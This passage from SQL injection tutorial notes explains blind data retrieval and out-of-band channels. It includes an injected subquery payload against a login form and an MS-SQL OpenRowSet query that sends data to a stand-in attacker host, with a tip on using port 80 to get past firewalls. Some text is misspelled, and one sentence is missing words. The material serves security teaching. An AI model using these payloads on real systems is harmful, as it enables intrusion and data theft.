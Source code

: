 In a scripted attack, this technique can be used to quickly retrieve and reconstruct a large amoung of string-based data one byte at a time.

**TIP: There are numerous subtle variations in how different database platforms handle string manipulation and numeric computation, which you may need to take into account when advanced attacks of this kind. An excellent guide to these differences covering many different databases can be found at [SQLZOO](http://sqlzoo.net/howto/source/z.dir/i08fun.xml).**

### Using Out-of-Band Channel
You can try various techniques to retrieve data and verify that other malicious actions have been successful. There are many circumstances in which you may be able to inject an arbitrary query but not retrieve its results. Recall the example of the vulnerable login form, where the username and password fields are vulnerable to SQL injection:

```
SELECT * FROM users WHERE username = 'marcus' AND password = 'secret'
```

In addition to modifying the query's logic to bypass the login, you can inject an entirely separate subquery using string concatenation to join its results to the item you control. For example:

```
foo' || (SELECT 1 FROM dual WHERE (SELECT username FROM all_users WHERE username = 'DBSNMP') = 'DBSNMP')--
```

This causes the applicatio to perform the following query:

```
SELECT * FROM users WHERE username = 'foo' || (SELECT 1 FROM dual WHERE (SELECT username FROM all_users WHERE username = 'DBSNMP') = 'DBSNMP')
```

All you'll receive back in the applicatoin's response is the standard login failure message. What you then need is a way to retrieve the results of your injected query.

One method for retrieving data that is often effective in this situation is to use an out-of-band channel. Having achieved the ability to execute arbitrary database's built-in functionality to create a network connection back to your own computer, over which you can transmit arbitrary data that you have gathered from the database.

Some of the most common and effective techniques for each type of databaes are described here.

#### MS-SQL
On older databases such as MS-SQL 2000 and earlier, the `OpenRowSet` command can be used to open a connection to an external database and insert arbitrary data into it. For example, the following query causes the target database to open a connection to the attacker's database and insert the version string of the target database in to the table called `foo`:

```
insert into openrowset('SQLOLEDB',
'DRIVER={SQL Server};SERVER=mdattacker.net,80;UID=sa;PWD=letmein',
'select * from foo') values (@@version)
```

Note that you can specify port 80, or any other likely value, to incerase your chance of making an outbound connection through any firewalls.
